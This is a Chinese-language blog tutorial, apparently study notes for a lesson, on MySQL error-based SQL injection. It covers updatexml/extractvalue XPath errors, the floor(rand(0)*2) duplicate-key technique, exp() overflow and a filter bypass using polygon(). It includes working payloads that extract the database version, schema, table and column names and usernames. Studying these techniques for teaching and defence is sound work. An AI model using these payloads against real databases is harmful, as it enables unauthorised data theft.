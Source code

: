 ```yaml
---
title: "Sql注入学习之报错注入"
date: 2019-11-13T17:06:49+08:00
draft: flase
tags: ['SQL注入,报错注入']
categories: ['SQL注入']
---
```

需要讲课，学习下报错注入
<!--more-->

## xmlpath报错
通过xml函数进行报错，来进行注入。主要涉及2个函数:<br>
1、updatexml()<br>
2、extractvalue()<br>

updatexml((XML_document, XPath_string, new_value):<br>

第一个参数：xml文档的名称<br>

第二个参数：xpath格式的字符串<br>

第三个参数：替换查找到的符合条件的数据<br>

简而言之功能就是查找一个字符串，并进行替换。而我们在xpath也就是第二个参数那里传入xpath不认识的特殊字符，并加上一些查询语句，mysql就会把错误和查询语句的结果报错显示出来。这就是xpath报错注入的原理

### updatexml报错注入

#### 注意事项
- 必须是在xpath那里传特殊字符，mysql才会报错，而我们又要注出数据，没这么多位置，所以要用到concat函数
- xpath只会对特殊字符进行报错，这里我们可以用~，16进制的0x7e来进行利用
- xpath只会报错32个字符，所以要用到substr

#### Payload
- 爆数据库版本
```mysql
updatexml(1,concat(0x7e,version(),0x7e),1)
```

- 爆所有数据库
```mysql
updatexml(1,concat(0x7e,(select substr(group_concat(schema_name),1,32) from information_schema.schemata)),0x7e)
```

- 爆所有表
```mysql
updatexml(1,concat(0x7e,(select substr(group_concat(table_name),1,32) from information_schema.tables where table_schema=database()),0x7e),1)
```

- 爆所有列
```mysql
updatexml(1,concat(0x7e,(select substr(group_concat(column_name),1,32) from information_schema.columns where table_schema=database()),0x7e),1)
```

- 爆数据
```mysql
updatexml(1,concat(0x7e,(select substr(group_concat(username),1,32) from users),0x7e),1)
```

### Extractvalue报错注入
extractvalue(xml_str , Xpath)
第一个参数意思是传入xml文档，第二个参数xpath意思是传入文档的路径<br>

还是对第二个参数xpath传入特殊字符，让它报错，跟updatexml的payload差不多，只不过一个是3个参数，一个是两个，这里就不详细列出来了
```mysql
extractvalue(1,concat(0x7e,version(),1))
```

)

## 主键重复
先来看下几个要用的函数和语句<br>
<h3>count(*)</h3>
返回表中的记录数，一般配合group by使用，如果直接使用count，其实就是记录列名的行数<br>
  <h3>group by</h3>
group by a，结合count进行分组排序。group by会创建一个虚拟表，把a作为一个主键，去循环真实表的每行数据，group by可能会执行两次运算，第一次获取a这个字段，如果存在，则直接执行count(),不执行第二次运算。第二次也就是不存在，则把这个数据插入虚拟表。这里要注意，因为是把group a作为主键，所以如果插入重复数据则会报错
<h3>floor(a)</h3>
返回小于等于a值的最大整数
<h3>rand()</h3>
返回0-1随机小数，一般配合floor来使用。rand(0)不是随机的，它会返回固定的小数，我们就是利用这个特性来进行注入

### 原理
我们来看下rand(0)返回的固定小数
![avatar](https://ae01.alicdn.com/kf/U0534418376e948f89d8d90b90d6735c84.png)
假如我们现在有一个test表，里面有6行数据，两个字段<br>
再来执行一条sql语句,看看是什么流程:
```mysql
select count(*) from test group by floor(rand(0)*2)
```
1、建立一个虚拟表

|  key   | count|
|  ----  | ----  |
|     |

2、第一次执行floor(rand(0)*2，因为第rand(0)第一次结果为0.155...，乘以2也是0.3...，floor取整就是0(第一次运算)。表中没有数据，mysql执行第二次运算，准备把数据插入到虚拟表中，而floor(rand(0)*2又被执行了一次(第二次运算)，这次取整之后是1，把数据1插入到虚拟表中

|  key   | count|
|  ----  | ----  |
|    1 |    1

3、继续执行floor(rand(0)*2(第三次运算),这次是1，不需要进行二次运算，所以直接被插入到虚拟表中

|  key   | count|
|  ----  | ----  |
|    1 |    1+1

4、继续执行floor(rand(0)*2(第四次运算),结果为0，主键没0，准备插入到虚拟表中，floor(rand(0)*2又被执行了一次(第五次)，结果为1，准备插入到虚拟表中，发现已经有主键为1了，所以会报错。

### 构造payload
可能有点绕，但是只要理解了group by可能会执行2次，和rand(0)稳定值，就应该大概能理解了
```mysql
select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x
```
## 数据类型溢出
利用~进行数据溢出，这里不是太懂原理，直接贴出payload
```mysql
select exp(~(select*from(select user())x))
```
## 小tips

### 过滤information_schema
如果程序过滤information_schema，无法获取表名，利用polygon()进行绕过，括号里填上存在的列名(一般都有id这个列)，即可爆出表名
![avatar](https://ae01.alicdn.com/kf/Ucca695de38604ed087174db360c194e4V.png)
##  参考文章
https://xz.aliyun.com/t/253<br>
https://y4er.com/post/mysql-injection-learn/
